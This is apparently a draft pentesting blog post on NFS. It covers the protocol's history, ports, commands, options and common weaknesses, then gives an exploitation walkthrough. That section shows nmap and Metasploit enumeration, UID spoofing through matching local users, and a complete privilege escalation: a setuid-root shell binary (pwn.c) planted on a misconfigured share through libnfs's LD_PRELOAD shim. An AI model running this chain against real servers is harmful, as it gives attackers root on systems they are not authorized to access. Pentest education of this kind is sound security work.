 ```yaml
--- 
title: "Pentesting Network File System(NFS)"
author: ""
date: 2023-09-17T13:53:46+01:00
description: ""
draft: true
disableComments: false
categories: []
series: [] #Taxonomy to list "See Also" Section in Opengraph Templates
tags: []
slug: ""
summary: ""
---
```

NFS (Network File System) is a distributed file system protocol that allows users on client computers to access files over a network in the same way they would access a local storage. An administrator configures specific locations on the NFS server for data access by clients. 

Developed by Sun Microsystems in 1984, this protocol has evolved through several versions - NFSv2, NFSv3, and NFSv4. The first version was developed to connect unix-like hosts. Then NFSv2 which ran on UDP network protocol was released in 1989. In 1994, NFSv3 was released  to support asynchronous writes, manage 64 bit files and handle errors more effectively. Finally, NFSv4 with a NFSv4.1 minor release changed the narrative integrating security and adding features to communicate with Windows hosts via the Samba protocol.  

NFS service typically runs on `TCP/UDP port 111 and 2049` with `port 111` for mapping RPC program numbers to their respective ports and `port 2049` for establishing connection and data access. It is noteworthy that NFSv4 was designed to work exclusively on `port 2049`. To observe NFS communication on the wire see _NFS version 4 Communication_ traffic flow.
```shell
tcp nfs or port 111 or port 2049 # wireshark capture filter
mkdir $FOLDERNAME
sudo mount -t nfs $IP:/$SHAREDFOLDER  $LOCALFOLDER -o nolock
sudo ls $LOCALFOLDER
sudo umount $LOCALFOLDER
rm -fr $LOCALFOLDER
```
![NFS Communication](/images/nfs/00_nfs-connection.png "NFS version 4 Communication") 
 
**Common Server Application**
+ Unix systems
    - nfs-kernel-server
    - nfs-utils
    - NFS Ganesha
+ Windows systems
    - FS-NFS-Service
    - Allegro NFS Server  

**Common Commands**

| COMMAND | USAGE | DESCRIPTION |
|---|---|---|
| echo | echo '$SHAREPATH $DOMAINorIPorCIDR(server-options)' >> /etc/exports | write share configuration to `/etc/exports` |
| exportfs | exportfs `-a -r -o` server-options | export `/etc/exports` where a:all r:re-export o:options |
| nfsstat | nfsstat `-c -s` | entries display NFS statistics where c:client s:server |
| mount | mount -t $NFS_VERSION $IPorDomain:/$SHAREDFOLDER $LOCALFOLDER -o client-options | **mount** the shared folder on the client machine |
| showmount | showmount `-a -e` $DOMAINorIP | list the shared folder |
| umount | umount $LOCALFOLDER | unmount the shared folder from client machine |

<u>server-options - </u> ro:`read only directory`, rw:`read and write directory`, sync:`synchronous read/write operation`, async:`asynchronous read/write operation`,  no_subtree_check:`disable nested directory listing`, nohide:`enable nested directory listing`, fsid:`assign unique NFSv4 file system`, no_root_squash:`allows client root UID/GID privileges on directory`, root_squash:`disallows client root UID/GID privileges on directory`, all_squash:`maps client UID/GID to nobody`, no_all_squash:`preserves the client UID/GID on directory`, insecure:`allow unprivileged ports for NFS requests`, secure:`allow only privileged ports for NFS requests`.  

<u>client-options - </u> ro:`read only`, rw:`read and write`, noexec:`prevents binary execution`, nosuid:`disables setuid/setguid`, soft:`client return error on access failure`, hard:`client retries on access failure`, tcp:`use TCP connection`, udp:`use UDP connection`, vers=VERSION_NUMBER:`NFS protocol version to use i.e 2,3,4`, sec=SECURITY_MECHANISM:`security flavor to use for authentication i.e sys,kbr5,kbr5i,kbr5p,ntlm`, username=USERNAME:`username to authenticate with`, PASSWORD=PASSWORD:`password of the user to authenticate with`.

**Common Vulnerability**
- Exposure of Sensitive Information to an Unauthorized Actor: [CWE-200](https://www.cvedetails.com/cwe-details/200/Exposure-of-Sensitive-Information-to-an-Unauthorized-Actor.html)
- Improper Access Control: [CWE-284](https://www.cvedetails.com/cwe-details/284/Improper-Access-Control.html)
- Improper Authentication: [CWE-287](https://www.cvedetails.com/cwe-details/287/Improper-Authentication.html)
- Protection Mechanism Failure: [CWE-693](https://www.cvedetails.com/cwe-details/693/Protection-Mechanism-Failure.html)

**Security Best Practices**
- Implement access control mechanism on host and shared directories.
- Deploy NFSv4 with authentication and encryption.
- Deploy NFS servers in  isolated network.

**Exploitation**  
NFS servers are sink for information. The feature of this technology for mounting remote volumes as though they were resident on the local machine brings great ease to the user. While accessing the exported directory does not grant a full shell on the remote system, an attacker can browser an improperly configured NFS server to discover juicy information that may enable access to the remote server and even escalate their privilege. Hence, an attacker's inclination when an NFS service is encountered can include:
- What valuable information they can find on all the directories they are able to access.
- Whether they can execute a malicious file with elevated privilege via the remote systems shell.

```shell
## SERVICE ENUMERATION ##
# with nmap
ls /usr/share/nmap/scripts/nfs*    # list nmap ftp scripts
'SNIP
/usr/share/nmap/scripts/nfs-ls.nse
/usr/share/nmap/scripts/nfs-showmount.nse
/usr/share/nmap/scripts/nfs-statfs.nse
'
nmap -p 111,2049 -sV $IP   # show version
nmap -p 111,2049 --script nfs-statfs $IP    # show mount point status

# with metasploit
search scanner nfs
use auxiliary/scanner/nfs/nfsmount   # show mount points
show options
set rhosts $REMOTEIP
set lhost $LOCALIP
run
 
## CREDENTIAL ENUMERATION ##

## PATH ENUMERATION ##
# with nmap
nmap -p 111,2049 --script nfs-ls $IP    # list mounted folder content

# with nfs-common utilities
showmount -e $IP   # show exported folder and permission

## HOST ENUMERATION/FOOTPRINTING ##
# mount the share locally
mkdir $LOCALFOLDERNAME
sudo mount -t nfs $IP:/$SHAREDFOLDERNAME $LOCALFOLDERNAME -o $SERVER_OPTIONS
nfsstat -c   # show nfs client operation details
nfsstat -s   # show nfs server operation details

# create a user and group to match the server's
stat $LOCALFOLDERNAME/*    # list access attritube of files in shared folder
sudo useradd -u $USERID $USERNAME    # create user
sudo groupadd -g $GROUPID $GROUPNAME    # create group
sudo usermod -aG $GROUPNAME $USERNAME    # add user to group
sudo passwd $USERID    # on prompt: enter a password and confirm the password
su $USERID    # on prompt: submit password

# explore the share 
sudo mount -t nfs $IP:/$SHAREDFOLDERNAME $LOCALFOLDERNAME -o $SERVER_OPTIONS  # re mount
cd $LOCALFOLDERNAME      # now change into local  directory
ls $LOCALFOLDERNAME

# escalate privileges
# build and compile libnfs
Version=5.0.2
wget https://github.com/sahlberg/libnfs/archive/refs/tags/libnfs-${Version}.zip
unzip libnfs-${Version}.zip
mv libnfs-libnfs-${Version} libnfs; cd libnfs
./bootstrap && ./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/

# develop and compile the exploit
cat << 'EOF' > pwn.c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/usr/bin/bash");
}
EOF
gcc -fPIC -shared -nostartfiles -o pwn pwn.c

# upload pwn,ld_nfs.so,lib/.libs/libnfs.so,lib/.libs/libnfs.so.14 to target
sudo cp {pwn,ld_nfs.so,lib/.libs/libnfs.so,lib/.libs/libnfs.so.14} $LOCALFOLDER

# prepare the exploit
LD_NFS_UID=0 LD_LIBRARY_PATH=lib/.libs/ LD_PRELOAD=./ld_nfs.so cp pwn nfs://$IP:/$SHAREDFOLDER/pwn
LD_NFS_UID=0 LD_LIBRARY_PATH=lib/.libs/ LD_PRELOAD=./ld_nfs.so chown root: nfs://$IP:/$SHAREDFOLDER/pwn
LD_NFS_UID=0 LD_LIBRARY_PATH=lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://$IP:/$SHAREDFOLDER/pwn
LD_NFS_UID=0 LD_LIBRARY_PATH=lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod u+s nfs://$IP:/$SHAREDFOLDER/pwn

# run the exploit
$LOCALFOLDER/pwn

# clean up
sudo umount -f $LOCALFOLDER    # unmount the share 
rm -fr $LOCALFOLDER    # remove local mount folder
sudo userdel $USERNAME    # delete the user
sudo groupdel $GROUPNAME    # delete the group
```

**References**  
- https://cloudinfrastructureservices.co.uk/what-is-nfs-network-file-system-how-it-works/
- https://nfs.sourceforge.net/nfs-howto/
- https://learn.microsoft.com/en-us/windows-server/storage/nfs/deploy-nfs
- https://meowmeowattack.github.io/notes/ports-protocols/nfs/
- https://www.giac.org/paper/gsec/8216/nfs-security-trusted-untrusted-environments/112913
